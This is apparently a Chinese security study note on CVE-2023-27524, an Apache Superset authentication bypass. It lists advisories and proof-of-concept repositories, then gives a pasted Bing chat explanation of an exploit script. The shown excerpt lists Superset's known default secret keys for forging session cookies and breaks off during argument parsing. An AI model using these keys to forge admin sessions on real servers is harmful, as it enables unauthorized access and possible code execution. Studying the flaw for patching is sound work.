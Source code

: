 # 身份认证绕过\_ApacheSuperset_CVE-2023-27524

- [漏洞发现团队 horizon3ai 的报告](https://www.horizon3.ai/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/)
- [Freebuf](https://www.freebuf.com/vuls/369911.html)
- [Apache Superset 存在未授权访问漏洞(CVE-2023-27524)详细利用过程](https://blog.csdn.net/nnn2188185/article/details/130478979)
- Github 上的一些 poc
  - [horizon3ai/CVE-2023-27524](https://github.com/horizon3ai/CVE-2023-27524)
  - [Okaytc/Superset_auth_bypass_check](https://github.com/Okaytc/Superset_auth_bypass_check)
  - [TardC/CVE-2023-27524](https://github.com/TardC/CVE-2023-27524)
  - [antx-code/CVE-2023-27524](https://github.com/antx-code/CVE-2023-27524)
  - [Pari-Malam/CVE-2023-27524](https://github.com/Pari-Malam/CVE-2023-27524)
  - [MaanVader/CVE-2023-27524-POC](https://github.com/MaanVader/CVE-2023-27524-POC)

---

TODO: 需要再读读代码

---

bing

您好，这是 Bing。我可以帮您逐行解释一下具体代码的作用。😊

这段代码是用 Python 语言编写的，它使用了 flask_unsign, requests, urllib3, argparse, re, time 等模块，分别用于破解和伪造 session cookie，发送 HTTP 请求，忽略 HTTPS 警告，解析命令行参数，进行正则表达式匹配，控制时间等。这段代码的目的是利用 flask_unsign 模块来破解和伪造 Apache Superset 的 session cookie，从而绕过身份验证，实现远程代码执行的漏洞利用。这段代码是针对 CVE-2023-27524 这个漏洞编写的，该漏洞是由于 Apache Superset 使用了不安全的默认配置而导致的身份验证绕过漏洞 ¹。

具体来说，这段代码的逻辑如下：

```python
# 导入所需的模块
from flask_unsign import session
import requests
import urllib3
import argparse
import re
from time import sleep

# 忽略HTTPS警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# 定义一个SECRET_KEYS列表，里面存放了一些可能被Apache Superset使用的默认密钥，用于破解session cookie
SECRET_KEYS = [
    b"\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h",  # version < 1.4.1
    b"CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET",  # version >= 1.4.1
    b"thisISaSECRET_1234",  # deployment template
    b"YOUR_OWN_RANDOM_GENERATED_SECRET_KEY",  # documentation
    b"TEST_NON_DEV_SECRET",  # docker compose
]

# 定义一个main函数，用于执行主要的逻辑
def main():
    # 创建一个命令行参数解析器，用于接收用户输入的参数，包括目标URL（必须），用户ID（可选，默认为1），是否验证登录（可选，默认为否），等待时间（可选，默认为5秒）等
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "--url", "-u", help="Base URL of Superset instance", required=True
    )
    parser.add_argument(
        "--id",
        help="User ID to forge session cookie for, default=1",
        required=False,
        default="1",
    )
```